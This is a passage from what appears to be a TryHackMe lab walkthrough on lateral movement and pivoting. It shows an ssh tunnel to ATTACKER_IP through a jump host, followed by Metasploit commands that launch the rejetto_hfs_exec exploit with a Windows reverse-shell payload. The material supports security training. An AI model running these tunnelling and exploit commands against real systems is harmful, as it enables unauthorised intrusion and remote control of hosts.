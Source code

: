 For SRVPORT and LPORT, let's choose two random ports at will. For demonstrative purposes, we'll set `SRVPORT=6666` and `LPORT=7777`, but be sure to use different ports as the lab is shared with other  students, so if two of you choose the same ports, when trying to forward them, you'll get an error stating that such port is already in use on  THMJMP2.

To forward such ports from our attacker machine to THMJMP2, we will use local port forwarding by adding `-L *:6666:127.0.0.1:6666` and `-L *:7777:127.0.0.1:7777` to our ssh command. This will bind both ports on THMJMP2 and tunnel any connection back to our attacker machine.

Putting the whole command together, we would end up with the following:

- **THMJMP2: Command Prompt**        

```shell-session
C:\> ssh tunneluser@ATTACKER_IP -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7777:127.0.0.1:7777 -N   
```

**Note:** If you are using the AttackBox and have joined other  network rooms before, be sure to select the IP address assigned to the  tunnel interface facing the `lateralmovementandpivoting`  network as your ATTACKER_IP, or else your reverse shells/connections  won't work properly. For your convenience, the interface attached to  this network is called `lateralmovement`, so you should be able to get the right IP address by running `ip add show lateralmovement`:

![img](assets/b6b6f6f3ef517c092e52c4bca4941129.png)

Once all port forwards are in place, we can start Metasploit and configure  the exploit so that the required ports match the ones we have forwarded  through THMJMP2:

- **AttackBox**        

```shell-session
user@AttackBox$ msfconsole
msf6 > use rejetto_hfs_exec
msf6 exploit(windows/http/rejetto_hfs_exec) > set payload windows/shell_reverse_tcp

msf6 exploit(windows/http/rejetto_hfs_exec) > set lhost thmjmp2.za.tryhackme.com
msf6 exploit(windows/http/rejetto_hfs_exec) > set ReverseListenerBindAddress 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set lport 7777

msf6 exploit(windows/http/rejetto_hfs_exec) > set srvhost 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvport 6666

msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8888
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```
